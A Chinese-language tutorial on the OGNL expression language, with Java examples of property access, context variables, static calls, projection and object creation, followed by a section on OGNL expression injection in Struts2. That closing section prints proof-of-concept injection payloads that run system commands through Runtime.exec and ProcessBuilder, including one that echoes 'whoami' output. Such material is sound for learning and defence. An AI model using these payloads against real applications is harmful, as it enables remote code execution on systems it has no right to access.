

## 介绍

OGNL 是 `Object-Graph Navigation Language`（**对象导航图语言**）的缩写，它是一种功能强大的表达式语言，通过它简单一致的表达式语法，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。它使用相同的表达式去存取对象的属性。这样可以更好的取得数据。

Ognl 是一个功能强大的表达式语言，用来获取和设置 java 对象的属性 ，它旨在提供一个更高抽象度语法来对 java 对象图进行导航。

官方文档：[https://commons.apache.org/proper/commons-ognl/language-guide.html](https://commons.apache.org/proper/commons-ognl/language-guide.html)

对于开发者来说，使用 OGNL，可以用简洁的语法来完成对 java 对象的导航。通常来说：通过一个 “路径” 来完成对象信息的导航，这个 “路径” 可以是到 java bean 的某个属性，或者集合中的某个索引的对象，等等，而不是直接使用 get 或者 set 方法来完成。

## 三要素

首先来介绍下 OGNL 的三要素：

-  **表达式（Expression）**：
表达式是整个 OGNL 的核心内容，所有的 OGNL 操作都是针对表达式解析后进行的。通过表达式来告诉 OGNL 操作到底要干些什么。因此，表达式其实是一个带有语法含义的字符串，整个字符串将规定操作的类型和内容。OGNL 表达式支持大量的表达式，如 “链式访问对象”、表达式计算、甚至还支持 Lambda 表达式。 
-  **Root 对象**：
OGNL 的 Root 对象可以理解为 OGNL 的操作对象。当我们指定了一个表达式的时候，我们需要指定这个表达式针对的是哪个具体的对象。而这个具体的对象就是 Root 对象，这就意味着，如果有一个 OGNL 表达式，那么我们需要针对 Root 对象来进行 OGNL 表达式的计算并且返回结果。 
-  **上下文环境**：
有个 Root 对象和表达式，我们就可以使用 OGNL 进行简单的操作了，如对 Root 对象的赋值与取值操作。但是，实际上在 OGNL 的内部，所有的操作都会在一个特定的数据环境中运行。这个数据环境就是上下文环境（Context）。OGNL 的上下文环境是一个 Map 结构，称之为 OgnlContext。Root 对象也会被添加到上下文环境当中去。
说白了上下文就是一个 MAP 结构，它实现了 java.utils.Map 的接口。 

## 使用OGNL表达式

### pom.xml

```xml
<!-- https://mvnrepository.com/artifact/ognl/ognl -->
<!-- 比较新的版本可能会出现 MemberAccess implementation must be provided - null not permitted! 的问题 -->
<dependency>
    <groupId>ognl</groupId>
    <artifactId>ognl</artifactId>
    <version>3.1.11</version>
</dependency>
```

### 基础用法举例

#### 对Root对象的访问

OGNL 使用的是一种链式的风格进行对象的访问，中间使用`.`进行连接；所有的OGNL表达式都基于当前对象的上下文来完成求值运算，链的前面部分的结果将作为后面求值的上下文。

```java
package org.example;

import lombok.Data;
import ognl.Ognl;
import ognl.OgnlException;

public class OgnlTest {
    public static void main(String[] args) throws OgnlException {
        User user = new User();
        user.setAge(16);
        user.setName("hello");
        Info info = new Info("1","2");
        user.setInfo(info);

        System.out.println(Ognl.getValue("age", user));	// 16
        System.out.println(Ognl.getValue("name", user));	// hello
        System.out.println(Ognl.getValue("name.length", user));	// 5
        System.out.println(Ognl.getValue("info", user));	// Info(a=1, b=2)
        System.out.println(Ognl.getValue("info.a", user));	// 1

    }
}


@Data
class User {

    private String name;
    private int age;
    private Info info;
}

@Data
class Info {
    private String a;
    private String b;

    public Info(String a, String b){
        this.a = a;
        this.b = b;
    }
}
```

#### 对上下文对象的访问

使用 OGNL 的时候如果不设置上下文对象，系统会自动创建一个上下文对象，如果传入的参数当中包含了上下文对象则会使用传入的上下文对象。

当访问上下文环境当中的参数时候，需要在表达式前面加上 '#' ，表示了与访问 Root 对象的区别。

```java
package org.example;

import lombok.Data;
import ognl.Ognl;
import ognl.OgnlException;

import java.util.HashMap;
import java.util.Map;

public class OgnlTest {
    public static void main(String[] args) throws OgnlException {
        User user = new User();
        user.setAge(16);
        user.setName("hello");
        Info info = new Info("1","2");
        user.setInfo(info);

        Map context = new HashMap();
        context.put("test", "testValue");
        context.put("aaa", user);

        System.out.println(Ognl.getValue("#test", context, user));  // testValue
        System.out.println(Ognl.getValue("#aaa", context, user));  // User(name=hello, age=16, info=Info(a=1, b=2))
        System.out.println(Ognl.getValue("#aaa.name", context, user)); // hello

    }
}


@Data
class User {

    private String name;
    private int age;
    private Info info;
}

@Data
class Info {
    private String a;
    private String b;

    public Info(String a, String b){
        this.a = a;
        this.b = b;
    }
}
```

#### 对静态变量的访问‼️

在 OGNL 表达式当中也可以访问静态变量或者调用静态方法，格式如 `@[class]@[field/method()]`。

```java
package org.example;

import ognl.Ognl;
import ognl.OgnlException;

public class OgnlTest {
    public static String test = "66666";

    public static void main(String[] args) throws OgnlException {
        System.out.println(Ognl.getValue("@org.example.OgnlTest@test", null));
    }
}
```

#### 方法的调用‼️

如果需要调用 Root 对象或者上下文对象当中的方法也可以使用类似的方式来调用。甚至可以传入参数。

赋值的时候可以选择上下文当中的元素进行给 Root 对象的 name 属性赋值。

```java
package org.example;

import lombok.Data;
import ognl.Ognl;
import ognl.OgnlException;

import java.util.HashMap;
import java.util.Map;

public class OgnlTest {
    public static void main(String[] args) throws OgnlException {
        User user = new User();
        Map context = new HashMap();
        context.put("test", "testValue");
        context.put("aaa", user);

        System.out.println(Ognl.getValue("getName()", context, user));  // null
        Ognl.getValue("setName(#test)", context, user); // 执行setName方法
        System.out.println(Ognl.getValue("getName()", context, user));  // testValue

    }
}


@Data
class User {

    private String name;
    private int age;
}
```

#### 对数组和集合的访问

OGNL 支持对数组按照数组下标的顺序进行访问。此方式也适用于对集合的访问，对于 Map 支持使用键进行访问。

```java
package org.example;

import ognl.Ognl;
import ognl.OgnlException;

import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import java.util.Map;

public class OgnlTest {
    public static void main(String[] args) throws OgnlException {
        List list = new ArrayList<>();
        list.add("123");
        list.add("456");

        Map map = new HashMap();
        map.put("test1", "value1");

        Map context = new HashMap();
        context.put("list", list);
        context.put("map", map);

        System.out.println(Ognl.getValue("#list[0]", context, list));   // 123
        System.out.println(Ognl.getValue("#map['test1']", context, map));   // value1
    }
}
```

#### 投影与选择

OGNL 支持类似数据库当中的选择与投影功能。

> 个人感觉有点类似stream


-  **投影**：选出集合当中的相同属性组合成一个新的集合。语法为 collection.{XXX}，XXX 就是集合中每个元素的公共属性。 
-  **选择**：选择就是选择出集合当中符合条件的元素组合成新的集合。语法为 collection.{Y XXX}，其中 Y 是一个选择操作符，XXX 是选择用的逻辑表达式。
   选择操作符有 3 种： 
   - ? ：选择满足条件的所有元素
   - ^：选择满足条件的第一个元素
   - $：选择满足条件的最后一个元素

```java
package org.example;

import lombok.Data;
import ognl.Ognl;
import ognl.OgnlException;

import java.util.ArrayList;
import java.util.HashMap;
import java.util.Map;

public class OgnlTest {
    public static void main(String[] args) throws OgnlException {
        User u1 = new User("name1", 11);
        User u2 = new User("name2", 22);
        User u3 = new User("name3", 33);
        User u4 = new User("name4", 44);

        ArrayList<User> list = new ArrayList<User>();
        list.add(u1);
        list.add(u2);
        list.add(u3);
        list.add(u4);

        Map context = new HashMap();
        context.put("list", list);

        System.out.println(Ognl.getValue("#list.{age}", context, list));    // [11, 22, 33, 44]
        System.out.println(Ognl.getValue("#list.{? #this.age > 22}", context, list));   // [User(name=name3, age=33), User(name=name4, age=44)]
        System.out.println(Ognl.getValue("#list.{^ #this.age > 22}", context, list));   // [User(name=name3, age=33)]
        System.out.println(Ognl.getValue("#list.{$ #this.age > 22}", context, list));   // [User(name=name4, age=44)]
    }
}


@Data
class User {

    private String name;
    private int age;

    public User(String name, int age) {
        this.name = name;
        this.age = age;
    }
}
```

#### 创建对象‼️

OGNL 支持直接使用表达式来创建对象。主要有三种情况：

- 构造 List 对象：使用 {}, 中间使用 ',' 进行分割如 {"aa", "bb", "cc"}
- 构造 Map 对象：使用 #{}，中间使用 ', 进行分割键值对，键值对使用 ':' 区分，如 #{"key1" : "value1", "key2" : "value2"}
- 构造任意对象：直接使用已知的对象的构造方法进行构造。

```java
System.out.println(Ognl.getValue("{'key1','value1'}", null));	// [key1, value1]
System.out.println(Ognl.getValue("#{'key1':'value1'}", null));	// {key1=value1}
System.out.println(Ognl.getValue("new java.lang.String('123')", null));	// 123
```

### # 和 % 和 $ 的区别

#### #符

`#`符主要有三种用途：

- 访问非根对象属性，即访问OGNL上下文和Action上下文，由于Struts2中值栈被视为根对象，所以访问其他非根对象时需要加#前缀，#相当于`ActionContext.getContext()`；
- 用于过滤和投影（projecting）集合，如`books.{? #this.price<100}`；
- 用于构造Map，如`#{'foo1':'bar1', 'foo2':'bar2'}`；

#### %符

`%`符的用途是在标志的属性为字符串类型时，告诉执行环境%{}里的是OGNL表达式并计算表达式的值。

#### $符

`$`符的主要作用是在相关配置文件中引入OGNL表达式，让其在配置文件中也能解析OGNL表达式。（换句话说，$用于在配置文件中获取ValueStack的值用的）。

### # 和 . 和 @ 的区别

- 获取静态函数和变量的时候用@
- 获取非静态函数用.号获取
- 获取非静态变量用#获取

## OGNL表达式注入

> webwork2和现在的Struts2.x中使用OGNL取代原来的EL来做界面数据绑定，所谓界面数据绑定，也就是把界面元素（例如一个textfield,hidden)和对象层某个类的某个属性绑定在一起，修改和显示自动同步。而Struts2框架正是因为滥用OGNL表达式，使之成为了“漏洞之王”。


由前面知道，**OGNL可以访问静态方法、属性以及对象方法等**，其中包含可以执行恶意操作如命令执行的类`java.lang.Runtime`等，当OGNL表达式外部可控时，攻击者就可以构造恶意的OGNL表达式来让程序执行恶意操作，这就是OGNL表达式注入漏洞。

### 注入举例

格式`@[class]@[field/method()]`

```java
package org.example;

import ognl.Ognl;
import ognl.OgnlException;

public class OgnlTest {
    public static void main(String[] args) throws OgnlException {
        // @[class]@[field/method()]
        String payload = "@java.lang.Runtime@getRuntime().exec('open -na Calculator')";
        System.out.println(Ognl.getValue(payload, null));

    }
}
```

### 能解析OGNL的API

能解析OGNL的API如下表：

| 类名 | 方法名 |
| --- | --- |
| com.opensymphony.xwork2.util.TextParseUtil | translateVariables,translateVariablesCollection |
| com.opensymphony.xwork2.util.TextParser | evaluate |
| com.opensymphony.xwork2.util.OgnlTextParser | evaluate |
| com.opensymphony.xwork2.ognl.OgnlUtil | setProperties,setProperty,setValue,getValue,callMethod,compile |
| com.opensymphony.xwork2.util.ValueStack | findString,findValue,setValue,setParameter |
| com.opensymphony.xwork2.ognl.OgnlValueStack | findString,findValue,setValue,setParameter,trySetValue |
| org.apache.struts2.util.VelocityStrutsUtil | evaluate |
| org.apache.struts2.util.StrutsUtil | isTrue,findString,findValue,getText,translateVariables,makeSelectList |
| org.apache.struts2.views.jsp.ui.OgnlTool | findValue |
| ognl.Ognl | parseExpression,getValue,setValue |


以下是调用过程中可能会涉及到的一些类：

| 涉及类名 | 方法名 |
| --- | --- |
| com.opensymphony.xwork2.ognl.OgnlReflectionProvider | getGetMethod,getSetMethod,getField,setProperties,setProperty,getValue,setValue |
| com.opensymphony.xwork2.util.reflection.ReflectionProvider | getGetMethod,getSetMethod,getField,setProperties,setProperty,getValue,setValue |


### HTTP请求中常见的注入点



### 常用payload

```java
//获取context里面的变量值
 #user
 #user.name

//使用runtime执行系统命令
@java.lang.Runtime@getRuntime().exec("calc")

//使用processbuilder执行系统命令
(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()

//获取当前绝对路径
@java.lang.System@getProperty("user.dir")
     
// e-mobole带回显
@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())
```

## 参考

-  [OGNL表达式注入漏洞总结](https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93) 
-  [Struts2著名RCE漏洞引发的十年之思](https://www.freebuf.com/vuls/168609.html) 
-  [Struts2 中的OGNL、表达式注入及防御](https://mp.weixin.qq.com/s/8YxQPDu6sx-w_O4BrBCEmw) 
